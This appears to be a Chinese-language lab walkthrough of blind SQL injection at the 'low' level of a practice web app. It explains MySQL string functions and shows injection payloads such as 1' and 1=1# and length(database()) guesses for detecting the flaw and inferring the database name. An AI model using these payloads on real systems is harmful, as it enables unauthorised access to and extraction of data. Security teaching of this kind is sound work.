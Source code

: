 # SQL Injection (Blind)

> ## @Date：2021-4-29
>
> ## @Last：2021-4-30
>
> ## @Author：Tanyiqu

## low

首先介绍MySQL数据库的几个函数

```
length(str);			获取字符串的长度
ascii(str);				返回str最左面字符的ASCII码值
substr(str,pos);		截取字符串，从pos位置截取到字符串末尾
substr(str,pos,len);	截取字符串，从pos位置开始截取len个字符
```



### 验证是否存在SQL注入

首先输入 `1` ，提示用户存在

首先输入 `10` ，提示用户存在

再输入 `1'` ，提示用户不存在

再输入 `1' and 1=1#`  ，提示用户存在

再输入 `10' and 1=1#`  ，提示用户不存在

可以判断输入存在SQL注入

同时我们可以看出：页面只有两种反馈，用户存在和用户不存在



### 尝试猜测数据库名称

#### 首先猜测数据库长度

##### 原理

```
使用 length(database()) 计算数据库的长度
再依次判断该值
如果提示用户存在，则猜测正确，否则猜测错误
```



##### 尝试

依次尝试下面语句

```
1' and length(database())=1 # 提示不存在
1' and length(database())=2 # 提示不存在
1' and length(database())=3 # 提示不存在
1' and length(database())=4 # 提示存在
```
